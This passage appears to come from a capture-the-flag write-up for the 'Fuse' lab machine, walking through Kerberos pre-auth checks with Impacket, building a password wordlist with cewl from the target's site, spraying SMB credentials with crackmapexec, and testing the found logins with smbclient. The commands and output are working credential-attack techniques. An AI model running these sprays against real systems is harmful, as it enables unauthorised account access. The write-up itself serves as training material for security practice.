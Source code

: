 ```
┌──(kali㉿kali)-[~/Desktop/fuse]
└─$ ./script.sh                                                                                                  1 ⚙
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for pmerton
[-] User pmerton doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for tlavel
[-] User tlavel doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for sthompson
[-] User sthompson doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for bhult
[-] User bhult doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
```

Looks like, we would need to find a valid password for any of the user to be able to continue with our SMB enumeration. To do so, we will use cewl to generate a list of potential passwords from the website. In order to generate a more detailed wordlist, we will also be supplying ```--with-numbers``` argument to the cewl command.

```
┌──(kali㉿kali)-[~/Desktop/fuse]
└─$ cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > pass.txt  
```

Next, we will use crackmapexec again to try and check if we are able to authenticate into the smb server with any of the set of credentials. From the output, what is interesting is that, using tlavel:Fabricorp01 or bhult:Fabricorp01, we are able to authenticate into the SMB server but we would need to change the password for the user.

```
┌──(kali㉿kali)-[~/Desktop/fuse]
└─$ crackmapexec smb 10.10.10.193 -u users.txt -p pass.txt --continue-on-success                     1 ⚙
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

Using smbclient on both sets of credentials, we realize that we obtain an error code that tells us to change the password for the users.

```
┌──(kali㉿kali)-[~]
└─$ smbclient -L \\\\10.10.10.193 -U bhult  
Enter WORKGROUP\bhult's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
                                                                                                                     
┌──(kali㉿kali)-[~]
└─$ smbclient -L \\\\10.10.10.193 -U tlavel                                                                      1 ⨯
Enter WORKGROUP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```
